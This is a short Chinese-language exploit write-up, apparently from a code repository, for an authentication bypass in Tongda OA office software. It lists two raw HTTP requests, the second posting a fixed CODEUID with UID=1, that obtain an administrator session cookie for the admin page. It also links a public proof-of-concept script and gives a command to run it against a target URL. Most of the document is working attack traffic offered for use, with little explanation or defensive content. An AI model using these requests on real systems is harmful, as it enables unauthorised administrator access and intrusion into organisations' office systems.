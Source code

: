 0x00 发送第一个请求包

```
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

0x01 发送第二个请求包


```
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1


```

获取cookie后访问管理员页面 /general/index.php
------------

可以利用工具获取cookie
借助工具：https://github.com/NS-Sp4ce/TongDaOA-Fake-User/blob/master/POC.py

python3 POC.py -v 2017 -url http://t33.33333333
